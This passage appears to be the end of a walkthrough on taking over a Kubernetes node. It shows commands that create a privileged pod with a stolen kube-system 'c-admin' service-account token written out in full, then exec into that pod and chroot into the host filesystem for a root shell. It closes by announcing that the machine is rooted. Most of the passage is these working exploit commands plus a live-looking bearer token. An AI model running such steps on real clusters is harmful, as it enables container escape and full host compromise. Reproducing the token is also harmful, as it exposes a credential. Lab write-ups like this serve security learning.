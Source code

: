 Let's create the pod 
```
./kc create -f root.yaml --token=eyJhbGciOiJSUzI1NiIsImtpZCI6IkpOdm9iX1ZETEJ2QlZFaVpCeHB6TjBvaWNEalltaE1ULXdCNWYtb2JWUzgifQ.eyJpc3MiOiJrdWJlcm5ldGVzL3NlcnZpY2VhY2NvdW50Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9uYW1lc3BhY2UiOiJrdWJlLXN5c3RlbSIsImt1YmVybmV0ZXMuaW8vc2VydmljZWFjY291bnQvc2VjcmV0Lm5hbWUiOiJjLWFkbWluLXRva2VuLXRmbXAyIiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9zZXJ2aWNlLWFjY291bnQubmFtZSI6ImMtYWRtaW4iLCJrdWJlcm5ldGVzLmlvL3NlcnZpY2VhY2NvdW50L3NlcnZpY2UtYWNjb3VudC51aWQiOiIyNDYzNTA1Zi05ODNlLTQ1YmQtOTFmNy1jZDU5YmZlMDY2ZDAiLCJzdWIiOiJzeXN0ZW06c2VydmljZWFjY291bnQ6a3ViZS1zeXN0ZW06Yy1hZG1pbiJ9.Xk96pdC8wnBuIOm4Cgud9Q7zpoUNHICg7QAZY9EVCeAUIzh6rvfZJeaHucMiq8cm93zKmwHT-jVbAQyNfaUuaXmuek5TBdY94kMD5A_owFh-0kRUjNFOSr3noQ8XF_xnWmdX98mKMF-QxOZKCJxkbnLLd_h-P2hWRkfY8xq6-eUP8MYrYF_gs7Xm264A22hrVZxTb2jZjUj7LTFRchb7bJ1LWXSIqOV2BmU9TKFQJYCZ743abeVB7YvNwPHXcOtLEoCs03hvEBtOse2POzN54pK8Lyq_XGFJN0yTJuuQQLtwroF3579DBbZUkd4JBQQYrpm6Wdm9tjbOyGL9KRsNow

```

And let's now get a root shell on the host

```
./kc --token=eyJhbGciOiJSUzI1NiIsImtpZCI6IkpOdm9iX1ZETEJ2QlZFaVpCeHB6TjBvaWNEalltaE1ULXdCNWYtb2JWUzgifQ.eyJpc3MiOiJrdWJlcm5ldGVzL3NlcnZpY2VhY2NvdW50Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9uYW1lc3BhY2UiOiJrdWJlLXN5c3RlbSIsImt1YmVybmV0ZXMuaW8vc2VydmljZWFjY291bnQvc2VjcmV0Lm5hbWUiOiJjLWFkbWluLXRva2VuLXRmbXAyIiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9zZXJ2aWNlLWFjY291bnQubmFtZSI6ImMtYWRtaW4iLCJrdWJlcm5ldGVzLmlvL3NlcnZpY2VhY2NvdW50L3NlcnZpY2UtYWNjb3VudC51aWQiOiIyNDYzNTA1Zi05ODNlLTQ1YmQtOTFmNy1jZDU5YmZlMDY2ZDAiLCJzdWIiOiJzeXN0ZW06c2VydmljZWFjY291bnQ6a3ViZS1zeXN0ZW06Yy1hZG1pbiJ9.Xk96pdC8wnBuIOm4Cgud9Q7zpoUNHICg7QAZY9EVCeAUIzh6rvfZJeaHucMiq8cm93zKmwHT-jVbAQyNfaUuaXmuek5TBdY94kMD5A_owFh-0kRUjNFOSr3noQ8XF_xnWmdX98mKMF-QxOZKCJxkbnLLd_h-P2hWRkfY8xq6-eUP8MYrYF_gs7Xm264A22hrVZxTb2jZjUj7LTFRchb7bJ1LWXSIqOV2BmU9TKFQJYCZ743abeVB7YvNwPHXcOtLEoCs03hvEBtOse2POzN54pK8Lyq_XGFJN0yTJuuQQLtwroF3579DBbZUkd4JBQQYrpm6Wdm9tjbOyGL9KRsNow exec -it everything-allowed-exec-pod -- chroot /host bash
```



<img src="root.png">


And we rooted the machine!

## Thanks for reading hope you enjoyed it!


